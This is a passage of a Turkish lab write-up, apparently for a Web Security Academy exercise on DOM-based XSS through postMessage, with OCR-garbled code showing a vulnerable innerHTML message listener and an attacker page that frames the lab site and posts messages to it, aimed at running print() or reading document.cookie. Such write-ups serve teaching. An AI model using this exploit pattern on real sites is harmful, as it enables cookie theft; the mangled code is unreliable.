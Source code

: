 Sitenin arka planında neler olup bittiğini görebilmek için öncelikle sayfa kaynağını görüntüleyelim. Sayfa kaynağını görüntülediğimizde 52. satırda gelen verinin data’sının innerHTML ile ekrana verilmekte olduğunu görebiliriz.

<scr i pt >![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.025.png)

`     `wi ndow. addEvent Li st ener ( ' message' ,  f unct i on( e)  {

`         `document . get El ement ByI d( ' ads' ) . i nner HTML  =  e. dat a;      })

</ scr i pt >

Bu lab’ı çözerken de yukarıda gösterdiğimiz örnekler üzerinden ilerleyebiliriz. Oluşturacağımız html sayfasında değiştirmemiz gerken kısım target sitesinin adresidir. Burada lab ortamının adresini yazmalıyız.

<ht ml >![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.026.png)

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `t ar get . cont ent Wi ndow. post Message( "asdasd", ' \*' ) ; 

`             `/ / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .                    }) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / "

`     `</ scr i pt > ![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.027.png)</ ht ml >

Oluşturduğumuz HTML sayfası sayesinde hedef web uygulamasını iframe ile açabildik.![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.028.png)

![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.029.png)

Bu kısımdan sonra da lab’ın çözülmesi için yapmamız gereken ise print() fonksiyonunu çağırmak ya da document.cookie gibi bir çıktı elde etmek olacaktır. Buna yönelik bir XSS Payload’ı yazabiliriz.

<ht ml >![](Aspose.Words.cccac844-d5dd-4f8a-a005-2e49c7480041.030.png)

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

